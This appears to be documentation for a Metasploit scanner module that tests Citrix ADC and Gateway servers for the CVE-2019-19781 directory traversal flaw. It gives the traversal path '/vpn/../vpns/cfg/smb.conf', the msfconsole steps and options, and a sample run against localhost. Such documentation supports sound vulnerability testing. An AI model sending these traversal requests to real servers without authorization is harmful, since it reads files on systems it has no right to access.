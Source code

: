 ## Introduction

An issue was discovered in Citrix Application Delivery Controller (ADC) and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0. The vulnerability, tracked as CVE-2019-19781, allows for directory traversal. If exploited, it could allow an unauthenticated attacker to perform arbitrary code execution.

Because vulnerable servers allow for directory traversal, they will accept the request `GET /vpn/../vpns/` and process it as a request for `GET /vpns/`, a directory that contains PERL scripts that can be targeted to allow for limited file writing on the vulnerable host.

This module checks if a target server is vulnerable by issuing an HTTP GET request for `/vpn/../vpns/cfg/smb.conf`and then checking the response for `[global]` since this configuration file should contain global variables. If `[global]` is found, the server is vulnerable to CVE-2019-19781.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/citrix_dir_traversal`
4. Do: `set RHOSTS [IP]`
5. Do: `run`

## Options

1. `Proxies`. This option is not set by default.
2. `RPORT`. The default setting is `80`. To use: `set RPORT [PORT]`
3. `SSL`. The default setting is `false`.
4. `THREADS`. The default setting is `1`.
5. `VHOST`. This option is not set by default.
6. `TARGETURI`. This option is the base path. `/` by default.
7. `PATH`. This option is the traversal path. `/vpn/../vpns/cfg/smb.conf` by default.

## Scenarios

```
msf5 auxiliary(scanner/http/citrix_dir_traversal) > options

Module options (auxiliary/scanner/http/citrix_dir_traversal):

   Name       Current Setting            Required  Description
   ----       ---------------            --------  -----------
   PATH       /vpn/../vpns/cfg/smb.conf  yes       Traversal path
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080                       yes       The target port (TCP)
   SSL        false                      no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                          yes       Base path
   THREADS    1                          yes       The number of concurrent threads (max one per host)
   VHOST                                 no        HTTP server virtual host

msf5 auxiliary(scanner/http/citrix_dir_traversal) > run

[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/citrix_dir_traversal) >
```

## References

1. <https://nvd.nist.gov/vuln/detail/CVE-2019-19781>
2. <https://support.citrix.com/article/CTX267027>
